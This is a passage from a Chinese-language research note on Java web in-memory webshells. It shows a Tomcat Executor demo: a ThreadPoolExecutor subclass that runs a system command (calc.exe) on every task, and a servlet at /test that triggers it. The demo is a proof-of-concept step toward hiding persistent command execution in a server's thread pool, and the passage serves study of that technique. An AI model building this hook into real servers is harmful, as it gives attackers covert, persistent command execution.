 ![image-20250605115255049](/Users/macos/Desktop/red/资料/my_wiki/JAVAWEB内存马/JAVAWEB内存马研究.assets/image-20250605115255049.png)

### 2.1.2.Tomcat Executor 线程池

#### 1.编写一个简单的Tomcat Executor的demo

新建一个项目，配置好tomcat运行环境和web目录，然后新建以下两个文件，第一个是TestExecutor.java：

```
import java.io.IOException;
import java.util.concurrent.SynchronousQueue;
import java.util.concurrent.ThreadPoolExecutor;
import java.util.concurrent.TimeUnit;

public class TestExecutor extends ThreadPoolExecutor {

    public TestExecutor() {
        super(0, Integer.MAX_VALUE, 60L, TimeUnit.SECONDS, new SynchronousQueue<>());
    }

    @Override
    public void execute(Runnable command) {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        super.execute(command);
    }
}
```

第二个是TestServlet.java：

```
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    TestExecutor executor = new TestExecutor();

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        executor.execute(() -> {
            System.out.println("Execute method triggered by accessing /test");
        });
    }
}
```
